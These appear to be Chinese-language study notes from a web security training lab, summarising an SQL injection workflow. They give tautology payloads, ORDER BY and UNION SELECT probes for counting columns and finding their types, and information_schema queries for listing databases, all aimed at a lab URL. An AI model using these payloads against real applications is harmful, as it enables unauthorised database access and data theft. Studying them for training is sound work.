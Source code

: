 ## SQL注入攻击流程总结
* 首先，观察是否有输入框可以任意输入，或者是https://0aba009004c4286dc0f83b1f004b00bd.web-security-academy.net/filter?category=Gifts类SQL查询链接
  * 输入框内尝试输入 xxx ' or 1=1 --，看是否有反应
  * 修改链接中的查询参数，https://0aba009004c4286dc0f83b1f004b00bd.web-security-academy.net/filter?category=Gifts' or 1=1 --
  * 如果都没有反应，观察返回的信息，如果只是True OR False，则选择SQL盲注
* 如果上面的WEB应用返回不是True OR False，则看查询的FLAG是否存在于表面，如果不存在则需要查询其他的数据库/数据表
  * 首先判断列数
    ```SQL
    ' order by 1 --
    ' order by 2--
      ......
    OR 
    ' UNION SELECT NULL -- 
    ' UNION SELECT NULL,NULL --
    ' UNION SELECT NULL,NULL,NULL --
    然后判断每一列的数据类型
    ' UNION SELECT 'a',123,'abc' --
    ```
  * 查询数据库名字，在数据类型为字符串的属性列上进行显示
    ```SQL
    ' UNION SELECT 1,2,3,'database' --
    OR 
    select * from information_schema.schemata
    ```